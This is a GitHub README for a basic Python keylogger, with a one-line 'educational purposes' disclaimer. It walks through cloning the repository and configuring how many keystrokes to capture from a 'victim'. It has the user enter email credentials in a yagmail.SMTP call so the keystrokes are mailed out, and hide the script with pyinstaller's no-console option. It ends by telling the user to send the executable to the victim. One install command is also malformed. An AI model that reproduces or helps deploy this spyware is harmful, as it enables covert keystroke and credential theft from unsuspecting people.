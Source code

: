 # Keylogger
Basic keylogger for Linux and Windows

# Disclaimer
```
Do not use this program for black hat purposes
The program created just for educational purposes
```
# how-to-install
Clone the repository
```
git clone https://github.com/Cli3nt-ctrl/keylogger/
```
Change the directory
```
cd keylogger
```
Install the reuired python libraries
```
pip3 install requirements.txt
```

# how-to-use
open keylogger.py and enter the number of letters you wanna capture through victim
```
Enter the numbers here in the if loop :-- if len(a)==10 (default value is set as 10)
```
Enter your email id and password here
```
yagmail.SMTP(user='',password='')
```
Using the pyinstaller is optional. Pyinstaller creates your python file into executable format (.exe in  Windows and .elf in Linux) which also makes your python file unreadable
```
pyinstaller keylogger.py --no-console --onefile 
```
Your executable file will be in dist folder
```
cd dist
```
Send the executable file to your victim
